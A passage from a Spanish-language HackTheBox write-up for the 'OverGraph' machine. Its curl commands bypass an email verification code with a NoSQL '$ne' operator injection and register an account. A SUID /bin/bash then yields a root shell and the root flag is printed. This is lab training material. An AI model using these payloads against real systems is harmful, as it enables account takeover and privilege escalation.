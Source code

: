 Vuelvo a crear un usuario para resetear la base de datos

```null
curl -s -X POST http://internal-api.graph.htb/api/code -H "Content-Type: application/json" -d '{"email":"rubbx@graph.htb"}'; echo
{"result":"4 digit code sent to your email"}
```

```null
curl -s -X POST http://internal-api.graph.htb/api/verify -H "Content-Type: application/json" -d '{"email":"rubbx@graph.htb","code":{"$ne":"2222"}}'; echo
{"result":"Email Verified"}
```

```null
curl -s -X POST "http://internal-api.graph.htb/api/register" -H "Content-Type: application/json" -d '{"email":"rubbx@graph.htb", "password":"rubbx", "confirmPassword":"rubbx", "username":"rubbx"}'
{"result":"Account Created Please Login!"}
```

Pasados 10 minutos aproximadamente la bash se convierte en SUID

```null
user@overgraph:~/onegraph/backend/node_modules/mongoose/lib$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```

Me conecto como root y veo la segunda flag

```null
bash-5.0# cat /root/root.txt
69df8924024205e9d9957449d22ce471
```